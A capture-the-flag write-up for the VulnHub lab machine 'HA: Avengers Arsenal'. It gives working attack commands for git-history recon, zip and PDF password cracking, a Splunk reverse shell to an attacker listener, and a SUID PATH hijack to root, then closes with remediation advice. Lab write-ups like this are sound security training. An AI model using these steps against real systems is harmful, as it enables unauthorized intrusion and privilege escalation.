

# HA: Avengers Arsenal — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.101 (host-only) |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Flags** | 5 flags (Avengers-themed) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/ha-avengers-arsenal,369/) |

## Attack Summary

nmap → `.git` recon (base64 flag in commit) → QR code → hidden dirs → CUPP wordlist → john (zip + PDF cracking) → Splunk login (agent:avengers) → Splunk reverse shell app → SUID PATH hijack (`/opt/ignite`) → root

## Methodology

1. Network and web discovery
2. Git repository recon (exposed `.git`)
3. Web content discovery (QR code, hidden dirs, source hints)
4. CUPP wordlist + John to crack zip and PDF
5. Splunk authentication and shell via revshell app
6. SUID PATH hijacking for root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.101
```

Open ports: 80 (HTTP), 8000 and 8089 (Splunk).


---

## Step 2: Git Repository Enumeration

The web root exposes a `.git` directory. Clone it and dig through the commit log:

```bash
git clone http://192.168.1.101/.git hackingarticles
cd hackingarticles
git log
git show 4fb65717a4bdfa8169fb0642abf0f355f7eea048
```

A commit contains a base64-encoded flag:

```bash
echo "Q2FwdGFpbiBBbWVyaWNhJ3MgU2hpZWxkOnswNjE3ODZEOUE4QkI4OUEyRkU3NDVERDI2RkUyRTEzQ30=" | base64 -d
# Captain America's Shield:{061786D9A8BB89A2FE745DD26FE2E13C}
```

**Flag 1:** `Captain America's Shield:{061786D9A8BB89A2FE745DD26FE2E13C}`


---

## Step 3: Web Content Discovery

```bash
dirb http://192.168.1.101
```

Browse to `/images/17.jpeg` — it is a QR code. Scanning it reveals the path `/spammimc`. Visit `http://192.168.1.101/spammimc/sceptre.txt` for **Flag 2** (Loki's Scepter).

Check `/avengersbook.html` page source — a hex-encoded hint gives credentials: `agent:avengers`.

Visit `http://192.168.1.101/images/hammer.zip` to find a password-protected zip containing a PDF.

---

## Step 4: Cracking the Zip and PDF with CUPP + John

Build a targeted wordlist using known Iron Man details:

```bash
cd /opt/cupp && python cupp.py -i
# Name: tony, Surname: stark, Nickname: ironman, Birthday: 01052008
# Generates tony.txt
```

Crack the zip:

```bash
zip2john hammer.zip > hash
john --wordlist=/root/cupp/tony.txt hash
# Password: Stark12008
unzip hammer.zip  # extracts Mjølnir.pdf
```

Crack the PDF:

```bash
pdf2john Mjølnir.pdf > hashes
john --wordlist=/root/cupp/tony.txt hashes
# Password: Tony_050081
# Flag 3: Thor's Mjølnir (inside the PDF)
```

---

## Step 5: Splunk Shell via Reverse Shell App

Log in at `http://192.168.1.101:8000` with `agent:avengers`.

Upload the `splunk_shells` Splunk app (available at https://github.com/cnotin/SplunkWhisperer2). Then run:

```bash
# In Splunk search bar:
| revshell std 192.168.1.107 1234
```

```bash
# Attacker listener:
nc -lvp 1234
python -c 'import pty; pty.spawn("/bin/bash")'
id
# uid=1000(agent)
```



---

## Step 6: Privilege Escalation — SUID PATH Hijacking

```bash
find / -perm -u=s -type f 2>/dev/null
# /opt/ignite — SUID binary that calls ifconfig without full path
```

Hijack `ifconfig`:

```bash
cd /tmp
echo "/bin/bash" > ifconfig
chmod 777 ifconfig
export PATH=/tmp:$PATH
/opt/ignite
id
# uid=0(root)
cd /root && cat final.txt
# Flag 4: Storm Breaker
```


---

## Flags Summary

| # | Flag |
|---|------|
| 1 | Captain America's Shield: `{061786D9A8BB89A2FE745DD26FE2E13C}` |
| 2 | Loki's Scepter (in `/spammimc/sceptre.txt`) |
| 3 | Thor's Mjølnir (inside cracked PDF) |
| 4 | Storm Breaker (`/root/final.txt`) |
| 5 | Hidden in `yaka.xlsx` (`/opt/yakahints.txt` → `/opt/yaka.xlsx`, cell N20) |

---

## Lessons Learned

1. **Exposed `.git` directories** — block web access to `.git` via nginx/Apache rules; use `.gitignore` for secrets
2. **Credentials in git history** — even deleted commits are recoverable; rotate any credentials ever committed
3. **Splunk RCE** — restrict Splunk app uploads to trusted admins; use Splunk Enterprise Security role enforcement
4. **SUID PATH hijacking** — SUID binaries calling external commands without absolute paths are trivially exploitable; use full paths in code

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Exposed `.git` | `location /.git { deny all; }` in nginx config |
| Weak Splunk creds | Enforce strong password policy; disable default accounts |
| SUID binary PATH | Use absolute paths in `/opt/ignite`; audit SUID binaries |
